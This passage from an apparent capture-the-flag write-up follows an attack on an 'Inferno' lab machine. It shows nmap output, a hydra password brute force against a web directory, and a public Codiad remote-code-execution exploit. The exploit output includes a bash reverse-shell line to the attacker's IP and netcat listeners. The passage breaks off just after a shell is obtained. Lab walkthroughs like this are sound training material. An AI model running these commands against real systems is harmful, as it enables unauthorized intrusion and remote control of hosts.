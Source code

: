 ```

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May  3 15:59:17 2021 -- 1 IP address (1 host up) scanned in 1845.16 seconds
```
There are quite a few ports open on the system however only the ssh port and http server port on 22 and 80 respectively can be verified to be running so lets start with those.

#Web Server Port 80
```
Oh quanto parve a me gran maraviglia
quand'io vidi tre facce a la sua testa!
L'una dinanzi, e quella era vermiglia;

l'altr'eran due, che s'aggiugnieno a questa
sovresso 'l mezzo di ciascuna spalla,
e se' giugnieno al loco de la cresta 
```
The page simply has this text along with a picture so we start up gobuster while we check the image and text for any clues. The text just seems to be a passage from dante's inferno and the image as well with nothing really to find.
We eventually find a /inferno directory which requires a username and password. We haven't gotten much so we can try and guess some usernames and a bruteforce a password
```
# cat users.txt
root
admin
administrator
dante
inferno

# hydra -t 64 -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.67.42 http-get /inferno
```
We end up finding a valid password for the admin user, so lets use the credentials. We are immediately presented another login page, however thankfully our credentials work again.

It seems we have gained access to web IDE called codiad, we can poke around with the files here, but it seems that we cannot create or edit files unfortunately. However if we look up codiad exploits we find the following, https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit, which effects the latest version so let try it out. After working with the syntax for a little bit we end up being able to get the exploit to work with the following command
```
python2 Codiad-Remote-Code-Execute-Exploit/exploit.py http://admin:redacted@10.10.67.42/inferno/ 'admin' 'redacted' 10.13.1.12 8888 linux
[+] Please execute the following command on your vps:
echo 'bash -c "bash -i >/dev/tcp/10.13.1.12/8889 0>&1 2>&1"' | nc -lnvp 8888
nc -lnvp 8889
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"admin"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"inferno","path":"\/var\/www\/html\/inferno"}}
[+] Writeable Path : /var/www/html/inferno
[+] Sending payload...
{"status":"error","message":"No Results Returned"}
[+] Exploit finished!
[+] Enjoy your reverse shell!
```
We get a shell however we cannot maintain a persistant shell as something is set to kill bash shells at regular increments
```
# nc -lnvp 8889
```